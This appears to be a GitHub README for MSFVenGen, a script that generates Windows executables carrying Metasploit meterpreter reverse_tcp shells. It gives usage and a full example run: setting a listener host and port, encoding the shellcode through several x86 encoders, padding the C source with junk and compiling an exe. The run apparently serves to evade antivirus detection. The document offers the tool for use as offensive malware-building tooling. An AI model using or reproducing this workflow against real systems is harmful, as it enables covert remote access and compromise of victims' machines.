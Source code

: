 # MSFVenGen

MSFVenGen - Custom MSFVenom Executable Generator

### Requirements

- Linux
- Wine + MinGW
- Metasploit Framework

### Usage

    ./msfvengen.sh

### Example output
    MSFVenGen - Custom MSFVenom Executable Generator
    > LHOST: 192.168.0.102
    > LPORT: 4444
    We will be using the windows/meterpreter/reverse_X payloads. Which would you like to use?
    > windows/meterpreter/reverse_tcp
    > How many cycles we encode our shellcode? 1
    > Number of random seed to add some junk to the resulting C code source file: 1
    
    Cleaning out the ShellCode directory
    Generating shellcode...
    Attempting to read payload from STDIN...
    Attempting to read payload from STDIN...
    Attempting to read payload from STDIN...
    Attempting to read payload from STDIN...
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of generic/none
    generic/none succeeded with size 333 (iteration=0)
    generic/none chosen with final size 333
    Payload size: 333 bytes
    
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 360 (iteration=0)
    x86/shikata_ga_nai chosen with final size 360
    Payload size: 360 bytes
    
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/jmp_call_additive
    x86/jmp_call_additive succeeded with size 389 (iteration=0)
    x86/jmp_call_additive chosen with final size 389
    Payload size: 389 bytes
    
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/call4_dword_xor
    x86/call4_dword_xor succeeded with size 416 (iteration=0)
    x86/call4_dword_xor chosen with final size 416
    Payload size: 416 bytes
    
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 443 (iteration=0)
    x86/shikata_ga_nai chosen with final size 443
    Payload size: 443 bytes
    Final size of c file: 1886 bytes
    Saved as: /home/lonalore/msfvengen/ShellCode/test.c
    Shellcode generated.
    Cleaning it up...
    Creating Headers...
    Creating the first bit of fluff
    Creating the execution bit...
    Creating the last bit of fluff...
    Merging the last of it together...
    tcp-4444-826.exe SHA-1 Checksum is .. 088a3b485993622d450b534cead0ff5aa1701524 tcp-4444-826.exe
    
    Done!

